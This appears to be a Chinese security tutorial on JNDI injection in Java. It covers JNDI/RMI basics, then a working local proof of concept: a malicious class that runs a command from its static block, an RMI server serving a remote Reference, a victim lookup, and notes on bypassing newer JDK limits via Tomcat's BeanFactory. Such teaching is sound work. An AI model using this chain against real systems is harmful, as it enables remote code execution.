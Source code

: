 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/mTcoHcm8G-aBRqdjGM-G1Q)

0x01 前言
-------

在 Java 反序列化漏洞挖掘或利用的时候经常会遇到 RMI、JNDI、JRMP 这些概念，其中 RMI 是一个基于序列化的 Java 远程方法调用机制。作为一个常见的反序列化入口，它和反序列化漏洞有着千丝万缕的联系。除了直接攻击 RMI 服务接口外（比如：CVE-2017-3241），我们在构造反序列化漏洞利用时也可以结合 RMI 方便的实现远程代码执行。

我们在之前的课程中说到过动态类的加载，而 jndi 注入就是利用动态类的加载来完成攻击的，在这之前，我们先来了解一下 jndi 注入的基础知识

0x02 啥是 jndi
------------

**JNDI** 是 Java 命名与目录接口（Java Naming and Directory Interface），在 J2EE 规范中是重要的规范之一，有不少大佬可能认为，没有透彻理解 JNDI 的意义和作用，就没有真正掌握 J2EE 特别是 EJB 的知识。

我们来举个常规的 JDBC 的例子

```
Connection jdbcconn=null; try {  Class.forName("com.mysql.jdbc.Driver");  jdbcconn=DriverManager.getConnection("jdbc:mysql://MyDBServer?user=xxx&password=xxx");  ......  jdbcconn.close(); } catch(Exception e) {  e.printStackTrace(); } finally {  if(jdbcconn!=null) {   try {    jdbcconn.close();   } catch(SQLException e) {          } }
```

这是常规的链接数据库的例子，也是其他语言程序员的常见做法。

### 优点

1.  无可厚非这种方法在小规模的开发过程中不会有任何影响，只要程序员熟悉 Java 和 Mysql，就可以很快开发出相应的程序。
    

### 缺点

1、数据库服务器地址和名称 、用户名和口令都可能需要改变，由此引发 JDBC URL 需要修改；

2、数据库可能改用别的产品，如改用 DB2 或者 Oracle，引发 JDBC 驱动程序包和类名需要修改；

3、随着实际使用终端的增加，原配置的连接池参数可能需要调整；

### 如何解决

在对于 Java 这种强抽象模式的编程语言来说，肯定不会允许这么 LowB 的存在，程序员不应该关注后台的数据库是啥，版本是多少。所以为了统一化管理，就诞生了 JNDI

0x03 使用 JNDI
------------

在一开始很多人都会被 jndi、rmi 这些词汇搞的晕头转向，而且很多文章中提到了可以用 jndi 调用 rmi, 就更容易让人发昏了。我们只要知道 jndi 是对各种访问目录服务的逻辑进行了再封装, 也就是以前我们访问 rmi 与 ldap 要写的代码差别很大，但是有了 jndi 这一层，我们就可以用 jndi 的方式来轻松访问 rmi 或者 ldap 服务，这样访问不同的服务的代码实现基本是一样的。

![](https://mmbiz.qpic.cn/mmbiz_jpg/uqkCa4umw7iaE9KWvEe9zricnQKIN5qhmxolNTKMG6Ml9vhUNkd0EzFZy4KicrMoKsLdxkh2JOuHz0z4GjyG8CfHg/640?wx_fmt=jpeg)

### 代码实现

JNDI 中有绑定和查找的方法：

```
- bind：将第一个参数绑定到第二个参数的对象上面
- lookup：通过提供的名称查找对象
```

我们来举个例子：

`IHello.java`

```
package com.evalshell.jndi;import java.rmi.Remote;import java.rmi.RemoteException;public interface IHello extends Remote {    public String SayHello(String name) throws RemoteException;}
```

`IHelloImpl.java`

```
package com.evalshell.jndi;import java.rmi.RemoteException;import java.rmi.server.UnicastRemoteObject;public class IHelloImpl extends UnicastRemoteObject implements IHello {    public IHelloImpl() throws RemoteException {        super();    }    @Override    public String SayHello(String name) throws RemoteException {        return "Hello " + name;    }}
```

`CallService.java`

```
package com.evalshell.jndi;import javax.naming.Context;import javax.naming.InitialContext;import java.rmi.registry.LocateRegistry;import java.rmi.registry.Registry;import java.util.Properties;public class CallService {    public static void main(String[] args) throws Exception{        Properties env = new Properties();        env.put(Context.INITIAL_CONTEXT_FACTORY, "com.sun.jndi.rmi.registry.RegistryContextFactory");        env.put(Context.PROVIDER_URL, "rmi://localhost:1099");        Context ctx = new InitialContext(env);        Registry registry = LocateRegistry.createRegistry(1099);        IHello hello = new IHelloImpl();        registry.bind("hello", hello);        IHello rhello = (IHello) ctx.lookup("rmi://localhost:1099/hello");        System.out.println(rhello.SayHello("fengxuan"));    }}
```

![](https://mmbiz.qpic.cn/mmbiz_png/uqkCa4umw7iaE9KWvEe9zricnQKIN5qhmxczYib69gcZ8d6HicQsZUWgsYRE56KvI3fkQricXibBabL1jHjzkC9V8ruA/640?wx_fmt=png)

由于上面的代码将服务端与客户端写到了一起，所以看着不那么清晰，我看到很多文章里吧 JNDI 工厂初始化这一步操作划分到了服务端，我觉得是错误的，配置 jndi 工厂与 jndi 的 url 和端口应该是客户端的事情。

> 可以对比一下前几章的 rmi demo 与这里的 jndi demo 访问远程对象的区别，加深理解

JNDI 注入
-------

### 注入的原理

我们来到 JNDI 注入的核心部分，关于 JNDI 注入，@pwntester 在 BlackHat 上的讲义中写的已经很详细。我们这里重点讲一下和 RMI 反序列化相关的部分。接触过 JNDI 注入的同学可能会疑问，不应该是 RMI 服务器最终执行远程方法吗，为什么目标服务器 lookup() 一个恶意的 RMI 服务地址，会被执行恶意代码呢？

在 JNDI 服务中，RMI 服务端除了直接绑定远程对象之外，还可以通过 References 类来绑定一个外部的远程对象（当前名称目录系统之外的对象）。绑定了 Reference 之后，服务端会先通过 Referenceable.getReference() 获取绑定对象的引用，并且在目录中保存。当客户端在 lookup() 查找这个远程对象时，客户端会获取相应的 object factory，最终通过 factory 类将 reference 转换为具体的对象实例。

整个利用流程如下：

1.  目标代码中调用了 InitialContext.lookup(URI)，且 URI 为用户可控；
    
2.  攻击者控制 URI 参数为恶意的 RMI 服务地址，如：rmi://hacker_rmi_server//name；
    
3.  攻击者 RMI 服务器向目标返回一个 Reference 对象，Reference 对象中指定某个精心构造的 Factory 类；
    
4.  目标在进行 lookup() 操作时，会动态加载并实例化 Factory 类，接着调用 factory.getObjectInstance() 获取外部远程对象实例；
    
5.  攻击者可以在 Factory 类文件的构造方法、静态代码块、getObjectInstance() 方法等处写入恶意代码，达到 RCE 的效果；
    

在这里，攻击目标扮演的相当于是 JNDI 客户端的角色，攻击者通过搭建一个恶意的 RMI 服务端来实施攻击。我们跟入 lookup() 函数的代码中，可以看到 JNDI 中对 Reference 类的处理逻辑，最终会调用 NamingManager.getObjectInstance()：

实战案例
----

1.  首先创建一个恶意的对象
    
    ```
    package com.evalshell.jndi;import javax.lang.model.element.Name;import javax.naming.Context;import java.io.BufferedInputStream;import java.io.BufferedReader;import java.io.IOException;import java.io.InputStreamReader;import java.util.HashMap;public class BadObject {    public static void exec(String cmd) throws IOException {        String sb = "";        BufferedInputStream bufferedInputStream = new BufferedInputStream(Runtime.getRuntime().exec(cmd).getInputStream());        BufferedReader inBr = new BufferedReader(new InputStreamReader(bufferedInputStream));        String lineStr;        while((lineStr = inBr.readLine()) != null){            sb += lineStr+"\n";        }        inBr.close();        inBr.close();    }    public Object getObjectInstance(Object obj, Name name, Context context, HashMap<?, ?> environment) throws Exception{        return null;    }    static {        try{            exec("gnome-calculator");        }catch (Exception e){            e.printStackTrace();        }    }}
    ```
    

可以看到这里利用的是 static 代码块执行命令

2.  创建 rmi 服务端，绑定恶意的 Reference 到 rmi 注册表
    

```
package com.evalshell.jndi;import com.sun.jndi.rmi.registry.ReferenceWrapper;import javax.naming.NamingException;import javax.naming.Reference;import java.rmi.AlreadyBoundException;import java.rmi.RemoteException;import java.rmi.registry.LocateRegistry;import java.rmi.registry.Registry;public class Server {    public static void main(String[] args) throws RemoteException, NamingException, AlreadyBoundException {        Registry registry = LocateRegistry.createRegistry(1100);        String url = "http://127.0.0.1:7777/";        System.out.println("Create RMI registry on port 1100");        Reference reference = new Reference("EvilObj", "EvilObj", url);        ReferenceWrapper referenceWrapper = new ReferenceWrapper(reference);        registry.bind("evil", referenceWrapper);    }}
```

3.  创建一个客户端（受害者）
    
    ```
    package com.evalshell.jndi;import javax.naming.Context;import javax.naming.InitialContext;import javax.naming.NamingException;public class Client {    public static void main(String[] args) throws NamingException {        Context context = new InitialContext();        context.lookup("rmi://localhost:1100/evil");    }}
    ```
    
    可以看到这里的 lookup 方法的参数是指向我设定的恶意 rmi 地址的。
    
    然后先编译该项目，生成 class 文件，然后在 class 文件目录下用 python 启动一个简单的 HTTP Server:
    
    `python -m SimpleHTTPServer 7777`
    
    执行上述命令就会在 7777 端口、当前目录下运行一个 HTTP Server：
    
    ![](https://mmbiz.qpic.cn/mmbiz_png/uqkCa4umw7iaE9KWvEe9zricnQKIN5qhmxIZiatdWSWPcEdkxW2gZ8Wfy9248kFour0eZIwtD1LLls1eIhAyciaQUg/640?wx_fmt=png)
    
    然后运行 Server 端，启动 rmi registry 服务
    
    ![](https://mmbiz.qpic.cn/mmbiz_png/uqkCa4umw7iaE9KWvEe9zricnQKIN5qhmxxN19sQGhO73oMUnEhibX2zuCSMAN9ibL2D8PtdiaJ4Uabn0lc0iaCa4Iow/640?wx_fmt=png)
    
    如果是 JDK1.7 的版本，就可以运行成功
    
    ![](https://mmbiz.qpic.cn/mmbiz_png/uqkCa4umw7iaE9KWvEe9zricnQKIN5qhmxxKL72jfZlbok1jEiaMs0I1NcJFBuzjntZ9WXUWSf7lHMIIibhTG2kHQQ/640?wx_fmt=png)
    
    JDK1.8 最后运行报错
    
    ![](https://mmbiz.qpic.cn/mmbiz_png/uqkCa4umw7iaE9KWvEe9zricnQKIN5qhmxbY6F3eQ5GAaC35wThLZFFZgBISQib83UUPgsfM3BBKFqmnr0CibBZl6Q/640?wx_fmt=png)
    
    而此时使用 JNDI Server 返回恶意 Reference 是可以成功利用的，因为 JDK 8u191 以后才对 LDAP JNDI Reference 进行了限制。
    
    > Tips: 测试过程中有个细节，我们在 JDK 8u102 中使用 RMI Server + JNDI Reference 可以成功利用，而此时我们手工将 com.sun.jndi.rmi.object.trustURLCodebase 等属性设置为 false，并不会如预期一样有高版本 JDK 的限制效果出现，Payload 依然可以利用。
    

### 绕过高版本 JDK 限制：利用本地 Class 作为 Reference Factory

在高版本中（如：JDK8u191 以上版本）虽然不能从远程加载恶意的 Factory，但是我们依然可以在返回的 Reference 中指定 Factory Class，这个工厂类必须在受害目标本地的 CLASSPATH 中。工厂类必须实现 javax.naming.spi.ObjectFactory 接口，并且至少存在一个 getObjectInstance() 方法。org.apache.naming.factory.BeanFactory 刚好满足条件并且存在被利用的可能。org.apache.naming.factory.BeanFactory 存在于 Tomcat 依赖包中，所以使用也是非常广泛。

org.apache.naming.factory.BeanFactory 在 getObjectInstance() 中会通过反射的方式实例化 Reference 所指向的任意 Bean Class，并且会调用 setter 方法为所有的属性赋值。而该 Bean Class 的类名、属性、属性值，全都来自于 Reference 对象，均是攻击者可控的。

参考
--

https://tntaxin.blog.csdn.net/article/details/105586691
